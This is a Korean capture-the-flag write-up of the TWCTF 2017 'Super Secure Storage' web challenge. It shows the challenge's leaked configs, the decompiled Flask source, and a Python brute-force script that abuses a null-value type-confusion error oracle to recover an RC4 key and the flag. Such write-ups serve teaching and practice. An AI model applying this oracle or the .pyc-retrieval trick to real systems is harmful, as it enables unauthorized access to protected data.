


# [WEB] TWCTF2017 - Super Secure Storage

# Description
> http://s3.chal.ctf.westerns.tokyo
>

# Analysis

문제 페이지에 접속하면 다음과 같은 화면이 나온다.



data에 암호화 할 내용을 적고, key를 입력하고 store하면 암호화하여 저장하는 것 같다.
store하면 http://s3.chal.ctf.westerns.tokyo/#/data/81282와 같은 페이지로 이동하는데, 마지막에 81282은 저장된 data의 인덱스다.


암호화 할때 적은 key를 입력하면 위와 같이 평문을 얻을 수 있다.
js코드를 보다보니 rc4로 구현된 것을 확인할 수 있다.

robots.txt에 들어가면 숨겨진 디렉토리가 있다는 것을 알 수 있다.
```
curl http://s3.chal.ctf.westerns.tokyo/robots.txt
Disallow: /super_secret_secure_shared_directory_for_customer/
```
해당 경로로 들어가면 2개의 파일(nginx와 uwsgi 설정파일)이 존재하며 내용은 다음과 같다.
```
# securestorage.conf
server {
  listen 80;
  server_name s3.chal.ctf.westerns.tokyo;
  root /srv/securestorage;
  index index.html;

  location / {
    try_files $uri $uri/ @app;
  }

  location @app {
    include uwsgi_params;
    uwsgi_pass unix:///tmp/uwsgi.securestorage.sock;
  }

  location ~ (\.py|\.sqlite3)$ {
    deny all;
  }
}
```
```
[uwsgi]
chdir = /srv/securestorage
uid = www-data
gid = www-data
module = app
callable = app
socket = /tmp/uwsgi.securestorage.sock
chmod-socket = 666
vacuum = true
die-on-term = true
logto = /var/log/uwsgi/securestorage.log
processes = 8

env = SECRET_KEY=**CENSORED**
env = KEY=**CENSORED**
env = FLAG=**CENSORED**
```
/srv/securestorage아래에 app.py가 실행된다는 것을 알 수 있다.
그래서 url에 요청을 하였으나, 403 forbidden이 발생하였다.(conf파일이 막음)

python3의 경우 cache파일을 pyc파일로 생성하므로 이를 이용하여 cache파일을 다운받았다.
`curl -O http://s3.chal.ctf.westerns.tokyo/__pycache__/app.cpython-35.pyc`
일단 바이트코드 파일이라 decompile해줘야 하므로 uncompyle6를 이용하였다.
```python
# app.py
from flask import Flask, jsonify, request
from flask_sqlalchemy import SQLAlchemy
import hashlib
import os
app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///./db.sqlite3'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = True
app.secret_key = os.environ['SECRET_KEY']
db = SQLAlchemy(app)

class Data(db.Model):
    __tablename__ = 'data'
    id = db.Column(db.Integer, primary_key=True)
    key = db.Column(db.String)
    data = db.Column(db.String)

    def __init__(self, key, data):
        self.key = key
        self.data = data

    def __repr__(self):
        return '<Data id:{}, key:{}, data:{}>'.format(self.id, self.key, self.data)


class RC4:

    def __init__(self, key=app.secret_key):
        self.stream = self.PRGA(self.KSA(key))

    def enc(self, c):
        return chr(ord(c) ^ next(self.stream))

    @staticmethod
    def KSA(key):
        keylen = len(key)
        S = list(range(256))
        j = 0
        for i in range(256):
            j = j + S[i] + ord(key[i % keylen]) & 255
            S[i], S[j] = S[j], S[i]

        return S

    @staticmethod
    def PRGA(S):
        i = 0
        j = 0
        while True:
            i = i + 1 & 255
            j = j + S[i] & 255
            S[i], S[j] = S[j], S[i]
            yield S[S[i] + S[j] & 255]


def verify(enc_pass, input_pass):
    if len(enc_pass) != len(input_pass):
        return False
    rc4 = RC4()
    for x, y in zip(enc_pass, input_pass):
        if x != rc4.enc(y):
            return False

    return True


@app.before_first_request
def init():
    db.create_all()
    if not Data.query.get(1):
        key = os.environ['KEY']
        data = os.environ['FLAG']
        rc4 = RC4()
        enckey = ''
        for c in key:
            enckey += rc4.enc(c)

        rc4 = RC4(key)
        encdata = ''
        for c in data:
            encdata += rc4.enc(c)

        flag = Data(enckey, encdata)
        db.session.add(flag)
        db.session.commit()


@app.route('/api/data', methods=['POST'])
def new():
    req = request.json
    if not req:
        return jsonify(result=False)
    for k in ['data', 'key']:
        if k not in req:
            return jsonify(result=False)

    key, data = req['key'], req['data']
    if len(key) < 8 or len(data) == 0:
        return jsonify(result=False)
    enckey = ''
    rc4 = RC4()
    for c in key:
        enckey += rc4.enc(c)

    encdata = ''
    rc4 = RC4(key)
    for c in data:
        encdata += rc4.enc(c)

    newdata = Data(enckey, encdata)
    db.session.add(newdata)
    db.session.commit()
    return jsonify(result=True, id=newdata.id, data=newdata.data)


@app.route('/api/data/<int:data_id>')
def data(data_id):
    data = Data.query.get(data_id)
    if not data:
        return jsonify(result=False)
    return jsonify(result=True, data=data.data)


@app.route('/api/data/<int:data_id>/check', methods=['POST'])
def check(data_id):
    data = Data.query.get(data_id)
    if not data:
        return jsonify(result=False)
    req = request.json
    if not req:
        return jsonify(result=False)
    for k in ['key']:
        if k not in req:
            return jsonify(result=False)

    enckey, key = data.key, req['key']
    if not verify(enckey, key):
        return jsonify(result=False)
    return jsonify(result=True)


if __name__ == '__main__':
    app.run()
```

여기서 취약점이 발생하는 부분은 /api/data/\<int:data_id\>/check부분이다.
```
def enc(self, c):
        return chr(ord(c) ^ next(self.stream))
        
def verify(enc_pass, input_pass):
    if len(enc_pass) != len(input_pass):
        return False
    rc4 = RC4()
    for x, y in zip(enc_pass, input_pass):
        if x != rc4.enc(y):
            return False

    return True
    
@app.route('/api/data/<int:data_id>/check', methods=['POST'])
def check(data_id):
    data = Data.query.get(data_id)
    if not data:
        return jsonify(result=False)
    req = request.json
    if not req:
        return jsonify(result=False)
    for k in ['key']:
        if k not in req:
            return jsonify(result=False)

    enckey, key = data.key, req['key']
    if not verify(enckey, key):
        return jsonify(result=False)
    return jsonify(result=True)
```
예상하는 공격 방법은 다음과 같다. 
1. 타입체크를 안하고 verify()를 수행한다.
2. length체크를 통해 length가 같을 경우, enc()을 통해 한 글자씩 비교한다.
3. enc함수는 ord를 사용하는데 입력값이 null일 경우, 에러가 발생한다.
4. null이 아닌 printable한 값이랑 비교했을 때, 틀리면 false값이 리턴되고 맞다면 다음 글자를 비교한다.

# Exploit
1번 글이 flag일 가능성이 높으므로 1번 글을 대상으로 공격을 진행하였다.

우선 파라미터는 타입 체크를 안하므로 json타입으로 `{"key":[null]}`과 같이 넘겨준다.
```
curl http://s3.chal.ctf.westerns.tokyo/api/data/1/check --data '{"key":[null]}' -H "Content-Type: application/json" 
{
  "result": false
}
...
curl http://s3.chal.ctf.westerns.tokyo/api/data/1/check --data '{"key":[null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null]}' -H "Content-Type: application/json"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>
```
null을 16개 삽입하였을 때 500에러가 발생하므로 key는 16자리이다.

이제 한글자씩 뽑기위해 exploit을 작성하여 돌렸다.
```python
import urllib
import urllib2
import string

URL = "http://s3.chal.ctf.westerns.tokyo/api/data/1/check"
charset = string.ascii_letters+string.digits
cnt = 0
key = ''	
while len(key)!=16:
	for j in charset:
		cnt = 0
		pp = '['
		for i in range(len(key)):
			cnt += 1
			pp+='"'+key[i]+'",'
		pp += '"'+j+'"'
		pp += ',null'*(16-1-cnt)
		pp += ']'
		data = '{"key":'+pp+'}'
		try:
			req = urllib2.Request(URL,data)
			req.add_header('Content-Type','application/json;charset=UTF-8')
			res = urllib2.urlopen(req)
			dd = res.read()
			if 'false' not in dd:
				key += j
				print data
				print key
		except:
			print data
			key += j
			print key
			break	
            
print key
# {"key":["t","2","g","a","v","A","j","b","P","t","j","9","g","y","p","s"]}
# t2gavAjbPtj9gyps
```
key의 값이 `t2gavAjbPtj9gyps`인 것을 알아냈으니 http://s3.chal.ctf.westerns.tokyo/#/data/1의 key값에 t2gavAjbPtj9gyps을 넣으면 flag를 얻을 수 있다.



**TWCTF{yet-an0ther-pyth0n-0rac1e}**
